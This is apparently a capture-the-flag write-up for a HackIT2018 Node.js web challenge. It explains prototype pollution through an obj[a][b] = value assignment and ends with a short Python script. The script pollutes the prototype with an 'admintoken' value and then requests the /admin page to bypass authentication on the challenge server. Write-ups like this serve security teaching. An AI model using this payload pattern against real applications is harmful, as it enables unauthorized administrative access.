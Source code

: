 This challenge was provided with source code access, written in nodejs.
The bug is related to prototype pollution in the [line](https://github.com/DefConUA/HackIT2018/blob/master/web/Republic_of_Gayming/app.js#L64)
The general idea behind prototype pollution is when you an expression like : 
obj[a][b] = value

and user controlling a,b and value
if the users sets "a" to "__proto__" and "b" to any property , he can injects attributes in all existing objects with the value "value"
for more details check [this](https://github.com/HoLyVieR/prototype-pollution-nsec18)

the script I used is pretty simple, pollute array proto with attribute admintoken and an arbitrary value, then query /admin with the md5 of that value,
Note: At some points lot of teams were changing the __proto__ at the same time so it became like a trivial race condition, but it can be won easy 
```python
import requests


r = requests.post('http://185.168.131.1:3000/api',json={'row':'__proto__','col':'admintoken','data':'qqq'})
r = requests.get('http://185.168.131.1:3000/admin?querytoken=' + md5sumhex('qqq'))
print r.text

```